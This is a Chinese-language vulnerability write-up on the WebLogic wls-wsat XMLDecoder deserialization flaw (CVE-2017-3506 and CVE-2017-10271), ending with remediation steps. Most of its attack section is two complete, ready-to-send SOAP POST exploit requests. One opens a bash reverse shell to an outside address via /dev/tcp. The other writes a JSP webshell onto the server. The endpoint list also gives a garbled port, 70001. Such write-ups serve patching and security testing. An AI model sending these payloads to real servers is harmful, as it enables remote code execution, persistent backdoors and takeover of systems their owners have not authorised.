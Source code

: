  CVE-2017-3506 & 10271
wls-wsat组件远程命令执行（wls-wsat是WebLogic Server大部分版本都默认包含的核心组件之一）
Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞。
条件：
```
Weblogic满足版本:
10.3.6.0
12.1.3.0
12.2.1.1
12.2.1.2

漏洞位置：wls-wsat.war
漏洞url：
:70001/wls-wsat/CoordinatorPortType 
:70001/wls-wsat/CoordinatorPortType11
Weblogic程序访问有这个目录的话，多半存在这个漏洞。

注入方式：POST
漏洞本质：构造SOAP(java的类XML格式)的请求，在解析过程中导致XMLDecoder反序列化漏洞。
```
## **漏洞利用：**
发送如下数据包（注意其中反弹shell的语句，需要进行编码，否则解析XML的时候将出现格式错误）：
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/10.0.0.1/21 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```
成功获取shell，写入webshell（访问：http://your-ip:7001/bea_wls_internal/test.jsp）：
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<% out.print("test"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

## **修复：**
1. 删除组件war包 根据实际 环境 路径和业务需求，删除WebLogic程序下列war包及目录
```
rm -f/home/WebLogic/Oracle/Middleware/wlserver_10.3/server/lib/wls-wsat.war 
rm -f/home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/wls-wsat.war 
rm -rf/home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/wls-wsat 
```
2. 设置网络访问控制 配置 http://ip_address:7001/wls-wsat 网络访问控制策略，禁止外网可以直接访问。 
3. 更新补丁和扫描: 更新Oracle官方发布相关补丁，下载链接： http://www.oracle.com/technetwork/security-advisory/cpuoct2017-3236626.html 。 
4. 检测和防御 阿里云态势感知已增加检测规则，支持入侵行为和漏洞检测，建议您开通态势感知（专业版以上版本）进行检测。